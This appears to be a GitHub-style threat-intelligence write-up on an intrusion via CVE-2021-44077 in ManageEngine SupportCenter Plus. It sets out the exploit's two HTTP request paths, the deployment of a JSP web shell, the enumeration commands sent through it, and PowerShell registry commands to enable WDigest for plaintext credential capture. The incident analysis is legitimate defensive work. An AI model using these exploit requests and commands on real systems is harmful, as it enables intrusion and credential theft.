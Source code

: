 # Attack Roadmap

### Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration

<img src="AttackRoadmap.png"  width="20%" height="20%">

## Let's Summarize Each Step
#### 1. Exploit [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) The exploit looks very similar to a publicly available POC exploit on [GitHub](https://github.com/horizon3ai/CVE-2021-44077).
##### Exploit Method: RCE via two HTTP requests.
 - Request 1: POST request to /RestAPI/ImportTechnicians?step=1 contains `msiexec.exe` and was written to C:\Program Files\ManageEngine\SupportCenterPlus\bin\msiexec.exe.

 - Request 2: GET request to /RestAPI/s247action?execute=s247AgentInstallationProcess&apikey=asdasd, and invoke the uploaded `msiexec.exe`.

  ![image](https://github.com/user-attachments/assets/ce028655-d691-4c2d-86e3-370d9ce76742)

#### 2. Web Shell Deployment:
- The Malicous msiexec.exe contains encoded web shell once `msiexec.exe /i Site24x7WindowsAgent.msi EDITA1=asdasd /qn` there is a webshell file `jm2.jsp` written to `C:\Program Files\ManageEngine\SupportCenterPlus\custom\login\fm2.jsp`, this way will allow the threat actor to maintain the access with no need to execute the exploit once again.
- Now you have an access to the system through `http://<victim_ip:8080/custom/login/jm2.jsp` then you can `Execute Commands` and `View and Download files`
  
  ![image](https://github.com/user-attachments/assets/65b4b314-1bf1-44cb-b281-8c5fa18156ac)

#### 3. System Enumeration
- Then basic enumuration is made.
  ```
  https://server.example/custom/login/fm2.jsp?cmd=arp -a
  https://server.example/custom/login/fm2.jsp?cmd=systeminfo
  https://server.example/custom/login/fm2.jsp?cmd=tasklist
  https://server.example/custom/login/fm2.jsp?cmd=wmic computersystem get domain
  ```
#### 4. Credential Dumping
- The Threat Actor Checked if the `WDigest` is Enabled because When WDigest is Enabled `LSASS` stores passwords in Plaintext.
- Command Used:
  ```
   powershell.exe reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
  ```
  - Command To Enable WDigest:
  ```
  powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
  ```
  
